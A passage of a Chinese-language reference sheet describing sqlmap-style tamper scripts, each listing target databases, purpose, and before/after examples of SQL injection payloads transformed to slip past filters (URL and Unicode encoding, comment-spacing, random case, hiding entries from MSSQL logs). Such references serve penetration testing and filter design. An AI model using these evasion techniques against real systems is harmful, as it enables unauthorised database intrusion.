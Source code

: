 ```
适用数据库：ALL 
作用：将union allselect 替换为unionselect 
使用脚本前：tamper('-1 UNION ALL SELECT') 
使用脚本后：-1 UNION SELECT

securesphere.py
适用数据库：ALL 
作用：追加特定的字符串 
使用脚本前：tamper('1 AND 1=1') 
使用脚本后：1 AND 1=1 and '0having'='0having'

space2dash.py
适用数据库：ALL 
作用：将空格替换为--，并添加一个随机字符串和换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227

space2mssqlblank.py
适用数据库：Microsoft SQL Server 
测试通过数据库：Microsoft SQL Server 2000、Microsoft SQL Server 2005 
作用：将空格随机替换为其他空格符号('%01', '%02', '%03', '%04', '%05', '%06', '%07', '%08', '%09', '%0B', '%0C', '%0D', '%0E', '%0F', '%0A') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Eid%0DFROM%07users

between.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：用NOT BETWEEN 0 AND #替换> 
使用脚本前：tamper('1 AND A > B--') 
使用脚本后：1 AND A NOT BETWEEN 0 AND B--

percentage.py
适用数据库：ASP 
测试通过数据库：Microsoft SQL Server 2000, 2005、MySQL 5.1.56, 5.5.11、PostgreSQL 9.0 
作用：在每个字符前添加一个% 
使用脚本前：tamper('SELECT FIELD FROM TABLE') 
使用脚本后：%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E

sp_password.py
适用数据库：MSSQL 
作用：从T-SQL日志的自动迷糊处理的有效载荷中追加sp_password 
使用脚本前：tamper('1 AND 9227=9227-- ') 
使用脚本后：1 AND 9227=9227-- sp_password

charencode.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：对给定的payload全部字符使用url编码（不处理已经编码的字符） 
使用脚本前：tamper('SELECT FIELD FROM%20TABLE') 
使用脚本后：%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45

randomcase.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：随机大小写 
使用脚本前：tamper('INSERT') 
使用脚本后：INseRt

charunicodeencode.py
适用数据库：ASP、ASP.NET 
测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3 
作用：适用字符串的unicode编码 
使用脚本前：tamper('SELECT FIELD%20FROM TABLE') 
使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
```